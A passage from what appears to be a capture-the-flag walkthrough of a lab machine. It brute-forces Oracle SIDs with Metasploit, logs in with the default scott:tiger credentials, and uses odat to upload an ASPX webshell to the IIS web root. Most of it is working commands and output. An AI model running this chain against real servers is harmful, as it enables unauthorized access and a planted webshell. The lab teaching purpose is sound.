    SIDFILE  /usr/share/metasploit-framework/data/wordlists/sid.txt  no        The file that contains a list of sids.
   SLEEP    1                                                       no        Sleep() amount between each request.

msf5 auxiliary(admin/oracle/sid_brute) > run
[*] Running module against 10.10.10.82

[*] 10.10.10.82:1521 - Starting brute force on 10.10.10.82, using sids from /usr/share/metasploit-framework/data/wordlists/sid.txt...
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'XE'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'PLSExtProc'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'CLRExtProc'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID ''
[*] 10.10.10.82:1521 - Done with brute force...
[*] Auxiliary module execution completed
{% endhighlight %}

Next, try some default credentials.<br>
We can find the list in the <a href="https://docs.oracle.com/cd/B19306_01/install.102/b25300/rev_precon_db.htm">Oracle Database Installation Guide</a>.<br>
This time, following credential worked.<br>
{% highlight shell %}
scott:tiger
{% endhighlight %}
{% highlight shell %}
root@kali:/opt/oracle/instantclient_19_3# ./sqlplus SCOTT/tiger@10.10.10.82:1521/XE

SQL*Plus: Release 19.0.0.0.0 - Production on Wed Nov 6 18:24:53 2019
Version 19.3.0.0.0

Copyright (c) 1982, 2019, Oracle.  All rights reserved.

ERROR:
ORA-28002: the password will expire within 7 days



Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> 
{% endhighlight %}

For the Oracle penetration testing, we can use a script "<a href="https://github.com/quentinhardy/odat">odat.py</a>".<br>
It is not installed by default, we have to install with "apt-get"<br>
{% highlight shell %}
apt-get install odat
{% endhighlight %}

Then, upload a aspx webshell which is installed on Kali linux by default.<br>
To upload a file, we need an option "dbmsadvisor".
{% highlight shell %}
root@kali:~# odat dbmsadvisor -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --putFile C:\\inetpub\\wwwroot cmdasp.aspx /usr/share/webshells/aspx/cmdasp.aspx 

[1] (10.10.10.82:1521): Put the /usr/share/webshells/aspx/cmdasp.aspx local file in the C:\inetpub\wwwroot path (named cmdasp.aspx) of the 10.10.10.82 server
[+] The /usr/share/webshells/aspx/cmdasp.aspx local file was put in the remote C:\inetpub\wwwroot path (named cmdasp.aspx)
{% endhighlight %}
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-11-06/2019-11-06-18-39-38.png)
